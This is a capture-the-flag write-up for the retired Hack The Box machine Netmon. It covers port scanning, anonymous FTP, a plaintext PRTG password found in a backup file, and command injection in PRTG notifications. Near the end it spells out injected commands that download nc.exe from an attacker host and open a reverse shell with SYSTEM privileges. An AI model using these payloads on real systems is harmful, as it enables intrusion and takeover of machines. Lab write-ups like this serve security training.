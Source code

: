 ```yaml
---
layout: post
title: "Netmon: Hack The Box Walkthrough"
date: 2019-06-30 05:27:39 +0000
last_modified_at: 2019-06-30 07:56:06 +0000
category: Walkthrough
tags: ["Hack The Box", Netmon, retired]
comments: true
image:
  feature: netmon-htb-walkthrough.jpg
  credit: Alexas_Fotos / Pixabay
  creditlink: https://pixabay.com/photos/computer-searches-internet-chat-1172404/
---
```


This post documents the complete walkthrough of Netmon, a retired vulnerable [VM][1] created by [mrb3n][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post 
{:.no_toc} 

* TOC 
{:toc}

## Background

Netmon is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.152 --rate=700

Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-03-10 13:41:15 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 49666/tcp on 10.10.10.152
Discovered open port 49664/tcp on 10.10.10.152
Discovered open port 49677/tcp on 10.10.10.152
Discovered open port 49667/tcp on 10.10.10.152
Discovered open port 49665/tcp on 10.10.10.152
Discovered open port 52337/tcp on 10.10.10.152
Discovered open port 5985/tcp on 10.10.10.152
Discovered open port 139/tcp on 10.10.10.152
Discovered open port 47001/tcp on 10.10.10.152
Discovered open port 80/tcp on 10.10.10.152
Discovered open port 445/tcp on 10.10.10.152
Discovered open port 49668/tcp on 10.10.10.152
Discovered open port 21/tcp on 10.10.10.152
Discovered open port 135/tcp on 10.10.10.152
Discovered open port 53099/tcp on 10.10.10.152
```

Whoa. `masscan` finds many open ports. Let's do one better with `nmap` scanning the discovered ports to see what services are available.

```
# nmap -n -v -Pn -p21,80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49677,52337,53099 -A --reason 10.10.10.152 -oN nmap.txt
...
PORT      STATE  SERVICE      REASON          VERSION
21/tcp    open   ftp          syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst:
|_  SYST: Windows_NT
80/tcp    open   http         syn-ack ttl 127 Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp   open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open   netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open   microsoft-ds syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open   http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open   http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49677/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
52337/tcp closed unknown      reset ttl 127
53099/tcp closed unknown      reset ttl 127
...
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-03-10 13:48:31
|_  start_date: 2019-03-10 13:32:38
```

Since anonymous FTP login is allowed, let's go with that first.

### File Transfer Protocol

To my pleasant surprise, `C:\Users\Public` is available.

<a class="image-popup">
![2f8bf31c.png](/assets/images/posts/netmon-htb-walkthrough/2f8bf31c.png)
</a>

And guess what, `user.txt` is here!

<a class="image-popup">
![90a90b90.png](/assets/images/posts/netmon-htb-walkthrough/90a90b90.png)
</a>

### PRTG Network Monitor

Moving on to the `http` service, this is how it looks like.

<a class="image-popup">
![542fe300.png](/assets/images/posts/netmon-htb-walkthrough/542fe300.png)
</a>

In conjunction with the official security [advisory](https://www.paessler.com/about-prtg-17-4-35-through-18-1-37) and the [location](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data) of the various configuration files, I was able to uncover a plaintext password from the file below.

<a class="image-popup">
![adca4be4.png](/assets/images/posts/netmon-htb-walkthrough/adca4be4.png)
</a>

Here's the plaintext password.

<a class="image-popup">
![56c19c7a.png](/assets/images/posts/netmon-htb-walkthrough/56c19c7a.png)
</a>

And since this is a backup and knowing administrators increment the year for convenience's sake, the password may be `PrTg@dmin2019`. Let's give it a shot.

<a class="image-popup">
![3214f2a7.png](/assets/images/posts/netmon-htb-walkthrough/3214f2a7.png)
</a>

Awesome.

### PRTG < 18.2.39 Command Injection Vulnerability

During my research for vulnerability related to PRTG, I chanced upon this [blog](https://www.codewatch.org/blog/?p=453) discussing command injection vulnerability, with `SYSTEM` privileges no less.

Follow the instructions to create a custom notification with the following parameters.

```
test.txt; Invoke-WebRequest http://10.10.15.200/nc.exe -OutFile c:\Users\Public\Downloads\nc.exe
```

If you've read the blog carefully, you'll realize certain characters are encoded. As such, I'm avoiding certain bad characters, if you will, to download a copy of `nc.exe` to `c:\Users\Public\Downloads` with PowerShell.

Verify that `nc.exe` is indeed downloaded.

<a class="image-popup">
![e26dd675.png](/assets/images/posts/netmon-htb-walkthrough/e26dd675.png)
</a>

Next, we use the following parameters to run a reverse shell back to us.

```
test.txt; c:\Users\Public\Downloads\nc.exe 10.10.15.200 1234 -e cmd.exe
```

<a class="image-popup">
![4b13a195.png](/assets/images/posts/netmon-htb-walkthrough/4b13a195.png)
</a>

Getting `root.txt` is trivial when you have `SYSTEM` privileges.

<a class="image-popup">
![4d1f295b.png](/assets/images/posts/netmon-htb-walkthrough/4d1f295b.png)
</a>

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/177
[2]: https://www.hackthebox.eu/home/users/profile/2984
[3]: https://www.hackthebox.eu/
